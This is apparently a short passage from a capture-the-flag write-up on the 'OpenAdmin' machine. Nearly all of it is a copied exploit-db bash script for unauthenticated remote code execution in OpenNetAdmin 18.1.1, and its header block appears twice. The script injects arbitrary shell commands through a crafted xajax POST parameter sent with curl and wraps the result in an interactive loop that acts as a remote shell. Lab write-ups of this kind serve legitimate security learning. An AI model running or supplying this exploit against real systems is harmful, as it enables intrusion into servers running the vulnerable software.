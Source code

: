 ![ona-exploit](/assets/OpenAdmin/ona-exploit.jpg)

we look at the one from **exploit-db**:

```
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
